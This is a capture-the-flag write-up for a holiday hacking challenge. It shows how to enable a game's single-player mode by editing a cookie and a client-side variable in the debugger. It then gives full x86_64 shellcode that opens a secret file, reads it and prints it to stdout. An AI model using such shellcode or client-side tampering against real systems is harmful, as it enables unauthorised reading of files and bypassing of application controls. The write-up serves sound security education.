

# Challenge 6: Shellcode Primer

> Complete the Shellcode Primer in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.

## The Hint

Let's start by talking to Chimney Scissorsticks for a hint:

> Woo! I'm Chimney Scissorsticks, and I'm having a great time up here!
>
> I've been hanging out with all these NetWars players and not worrying about what's going on next door.
>
> In fact, I've really been having fun playing with this Holiday Hero terminal. You can use it to generate some jamming holiday tunes that help power Santa’s sleigh!
>
> It's more fun to play with a friend but I've also heard there's a clever way to enable single player mode.
>
> Single player mode? I heard it can be enabled by fiddling with two client-side values, one of which is passed to the server.
>
> It's so much more fun and easier with a friend though!
>
> Either way, we'd really appreciate your help getting the sleigh all fueled up.
>
> Then I can get back to thinking about shellcode...

Accessing the nearby sleigh station brings us to the `Holiday Hero` game:


We can either play the game with a partner, or as the hint suggested, we can figure out a way to enable single player
mode. After a bit of inspection, we can see that there is a cookie that seems to be one of the values we are looking
for:


Upon creating a room, however, it does not appear that single player is enabled yet. Some more investigation reveals
that there is a variable being checked by the game itself at runtime:


We can use the debugger to pause execution just after creating the game and set single_player_mode to true. Make sure
you select the game thread and not the main thread first:



Once we resume execution, we see that Single Player Mode has been enabled and we can proceed to play the game and win!


Here's what Chimney has to say:

> You did it - rock on! We're all set now that the sleigh is fueled!
>
> So hey, let me talk to you a bit about manual exploitation.
>
> If you run into any shellcode primers at the North Pole, be sure to read the directions and the comments in the shellcode source!
>
> Also, troubleshooting shellcode can be difficult. Use the debugger step-by-step feature to watch values.
>
> Lastly, be careful not to overwrite any register values you need to reference later on in your shellcode.
>
> That's it! I know you can do it!

## The Main Challenge

For this challenge, we need to work our way through a primer in shellcode/assembly. The final challenge consists of
producing a shellcode payload that will open a secret file, read the contents, write it out to `stdout`, and then
cleanly exit.

We can craft the following assembly with the help of the
provided [x86_64 syscall reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to accomplish
our goal:

```nasm
; Get a reference to this
call go
db '/var/northpolesecrets.txt',0
go:
pop rdi

; Call sys_open
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

; Call sys_read on the file handle and read it into rsp
mov rdi, rax
mov rsi, rsp
mov rdx, 0x100
mov rax, 0
syscall

; Call sys_write to write the contents from rsp to stdout (1)
mov rdx, rax
mov rax, 1
mov rdi, 1
mov rsi, rsp
syscall

; Call sys_exit
mov rax, 60
mov rdi, 0
syscall
```